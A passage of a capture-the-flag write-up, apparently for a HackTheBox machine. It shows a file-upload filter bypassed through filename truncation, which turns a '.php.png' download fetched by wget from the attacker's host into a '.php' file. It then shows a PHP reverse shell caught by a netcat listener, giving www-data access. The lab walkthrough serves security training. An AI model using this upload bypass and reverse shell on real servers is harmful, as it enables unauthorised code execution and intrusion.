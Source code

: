 ```html
   <h1>Upload via url:</h1>                        
                                                   
     <div>                                         
                                                   
        <h3>Upload Succsesful!</h3>                
        <div>                                      
        <h4>Output:</h4>                           
        <pre>CMD: cd /var/www/html/uploads/0621-0717_e3c7b4e00ef5f0ce; wget 'http://10.10.14.11/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'</pre>                                                                   
        <pre>The name is too long, 240 chars total.                                                   
Trying to shorten...                               
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.       
--2019-06-21 07:17:54--  http://10.10.14.11/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png                       
Connecting to 10.10.14.11:80... connected.         
HTTP request sent, awaiting response... 200 OK     
Length: 5492 (5.4K) [image/png]                    
Saving to: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
 0K .....                                   100% 8.10M=0.001s
```

Nice then we upload the pentestmonkey or whatever php shell you like and we're now www-data on the box:
```bash
listening on [any] 443 ...                         
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.73] 41188                                           
Linux falafel 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux                                                                                                  
 07:19:12 up 3 days, 23:24,  1 user,  load average: 0.00, 0.00, 0.00                                  
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT                                   
yossi    tty1                      Mon07    3days  0.07s  0.04s -bash                                 
uid=33(www-data) gid=33(www-data) groups=33(www-data)                                                 
/bin/sh: 0: can't access tty; job control turned off                                                  
$                                                  
```
